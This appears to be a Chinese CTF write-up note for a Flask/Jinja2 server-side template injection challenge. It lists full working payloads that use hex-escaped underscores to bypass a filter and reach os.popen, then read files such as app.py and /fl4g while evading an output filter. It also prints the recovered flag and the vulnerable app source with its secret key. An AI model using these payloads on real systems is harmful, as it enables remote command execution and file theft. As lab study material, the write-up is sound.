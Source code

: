 ```python
http://xmctf.top:8857/?name={{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[402]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"]["popen"]("cat app\x2epy")["read"]()}}
方法1分段读
http://xmctf.top:8857/?name={{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[402]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"]["popen"]("cat /fl4g")["read"]()[:3]}}
http://xmctf.top:8857/?name={{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[402]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"]["popen"]("cat /fl4g")["read"]()[3:]}}
方法2替换flag为xxyy进行显示
http://xmctf.top:8857/?name={{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[402]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"]["popen"]("cat /fl4g")["read"]()["replace"]("flag", "xxyy")}}
http://xmctf.top:8857/?name={{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fbase\x5f\x5f"]["\x5f\x5fsubclasses\x5f\x5f"]()[402]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["os"]["popen"]("cat app\x2epy")["read"]()["replace"]("flag", "xxyy")}}
```
提示flag在回血中，不会被显示。分段读一下即可。


`flag{12sd-jt4esf3-s93hcecc3-s33ff3}`

顺便下载app.py
```python
Hello from flask import Flask, request,render_template_string,redirect,render_template
app = Flask(__name__)
app.config['SECRET_KEY']='t9whf97yvvwn7y7w4twbv2640vyn0wt2v'


@app.route("/",methods=["GET","POST"])
def index():
    name = request.args.get('name', 'guest')
    if '_' in name or '.' in name or 'config' in name or 'args' in name:
        return render_template("hack.html")
    t = "Hello {}!".format(name)
    if "flag" in render_template_string(t): # just a trick:
        return "'flag' in result !!!Bighack"
    else:
        return render_template_string(t)

if __name__ == "__main__":
    app.run(host='0.0.0.0')!
```


## RCE-训练 未整理到笔记
原题目 GXYCTF2019]Ping Ping Ping
https://www.gem-love.com/ctf/516.html
https://0day.design/2018/12/20/Swpu%20CTF%202018%20Writeup/
https://www.cnblogs.com/wrnan/p/12811449.html
https://www.cnblogs.com/yesec/p/12475478.html
https://www.google.com/search?q=preg_match(%22%2F.*f.*l.*a.*g.*%2F%22&oq=preg_match(%22%2F.*f.*l.*a.*g.*%2F%22&aqs=chrome..69i57&sourceid=chrome&ie=UTF-8
